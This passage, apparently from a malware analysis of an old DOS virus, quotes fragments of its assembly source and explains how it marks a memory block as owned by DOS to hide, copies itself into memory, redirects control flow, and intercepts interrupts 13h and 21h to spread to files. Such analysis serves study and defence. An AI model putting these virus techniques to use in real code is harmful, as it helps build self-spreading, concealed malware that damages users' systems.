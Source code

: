 -   The virus marks a block of memory as a 'Z' block, which is a common technique used by viruses to hide from memory management utilities.

```
mov     word ptr ds:[di+3],((torero_size/10h)+1)
mov     word ptr ds:[di+8],4f44h    ; Mark block as owned by DOS
mov     word ptr ds:[di+0ah],0053h
inc     ax
```

-   Further manipulation of the Memory Control Block to conceal the virus's presence in memory.

#### Copying Virus to Memory

```
cld
push    cs
pop     ds
mov     es,ax
mov     cx,torero_size              ; Set CX to the size of the virus
mov     si,bp
rep     movsb                       ; Copy the virus to the allocated memory
```

-   This part copies the virus code to the newly allocated memory space. The `rep movsb` instruction is used for the actual copying, moving `torero_size` bytes of data.

#### Setting New Interrupt Vectors

```
push    es
push    offset copy_vector          ; Set up return address to 'copy_vector'
retf                                ; Far return to 'copy_vector'
```

-   The virus sets up a far return to a label `copy_vector`. This is part of the virus's control flow redirection.

### Intercepting Interrupt 13h

The code likely contains similar steps for setting up an interception for Interrupt 13h, which deals with low-level disk operations. This allows the virus to monitor, and potentially interfere with, disk reads and writes, which is a common way for it to spread itself to other files or disks.

### Summary

This section of the virus is about establishing control over critical system functions by intercepting interrupts. By doing so, the virus can insert its code into regular system operations, thereby ensuring it remains active and can spread. The technical nature of these operations shows a deep understanding of DOS internals and assembly language programming.

## Infection routine

This routine is called when the virus detects a file opening operation via DOS interrupt 21h.

### Infection Routine Detailed Analysis
